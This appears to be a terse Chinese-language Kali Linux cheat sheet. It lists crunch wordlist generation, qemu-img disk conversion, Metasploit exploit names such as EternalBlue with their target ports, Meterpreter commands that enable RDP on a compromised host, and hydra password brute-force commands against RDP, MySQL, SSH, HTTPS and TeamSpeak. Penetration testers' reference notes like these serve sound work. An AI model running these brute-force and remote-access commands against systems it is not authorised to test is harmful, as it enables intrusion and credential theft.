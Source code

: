 
## kali

### Kali生成密码字典
```bash
crunch min_lenght max_lenght options -o file_save_path
```
### qemu img 转 vmdk
```cmd
.\qemu-img.exe convert -f qcow2 -O vmdk 'source_file' 'target_file.vmdk'
```
### vmdk 转 img
```cmd
.\qemu-img.exe convert -f vmdk -O qcow2 'source_file' 'target_file.img'
```
### MSF

* 永恒之蓝(ms17_010)
>port:  445
* MS15_034
>port:  HTTP
* MS12_020
>port:  3389
* 扫描存活主机(arp_sweep)

### 进入shell后是乱码
`chcp 65001`
### 开启靶机3389端口
`run getgui -e` \
`run port/windows/manage/enable_rdp`

### hydra

破解rdp(3389)：

`hydra -l administrator -P password.txt -V IP rdp`

破解mysql：

`hydra ip -L 用户名 -P pass.txt -V mysql`

破解ssh：

`hydra -L user.txt -P password.txt -e ns -vV IP ssh`

破解https：

`hydra -m /index.php -l muts -P pass.txt IP https`

破解teamspeak：

`hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak`

